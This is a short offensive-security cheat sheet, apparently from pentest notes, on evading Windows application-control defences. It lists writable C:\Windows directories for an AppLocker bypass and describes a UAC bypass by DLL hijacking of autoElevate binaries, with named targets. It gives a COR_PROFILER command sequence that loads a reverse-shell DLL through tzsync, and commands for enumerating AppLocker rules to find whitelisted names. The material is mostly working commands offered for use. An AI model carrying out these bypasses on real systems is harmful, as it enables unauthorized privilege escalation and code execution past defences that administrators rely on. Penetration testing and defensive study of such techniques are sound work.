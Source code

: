 # Evasion & Bypasses

### AppLocker

Writable directories in C:\Windows:

* C:\windows\tasks

Use trusted binaries : [https://lolbas-project.github.io/](https://lolbas-project.github.io/) or find via:

```bash
findstr /C:"<autoElevate>true"
```

Then examine the library load order with procmon and look if you can write in any path where it looks for its libraries. If a path can be written to place a simple DLL there and it will be executed elevated. A nice [post](https://egre55.github.io/system-properties-uac-bypass/) about this. Common target binaries:

```bash
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
C:\Windows\SysWOW64\SystemPropertiesComputerName.exe
C:\Windows\SysWOW64\SystemPropertiesHardware.exe
C:\Windows\SysWOW64\SystemPropertiesProtection.exe
C:\Windows\SysWOW64\SystemPropertiesRemote.exe
```

#### COR Profile

Create a DLL payload like this [reverse shell](https://gist.github.com/xct/acacd58278f0448aeb1127aae41db1fd) and run:

```bash
set COR_ENABLE_PROFILING=1
COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=<path>/pwn.dll
tzsync
```

#### Enumerate AppLocker Rules

This can be important because certain executeable names might be whitelisted!

```
Get-AppLockerPolicy -effective -xml
```

or

```
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

### PowerShell Constrained Language Mode (CLM)

All Powershell modules in Covenant already bypass AppLocker/CLM via its own PowerShell runspace.
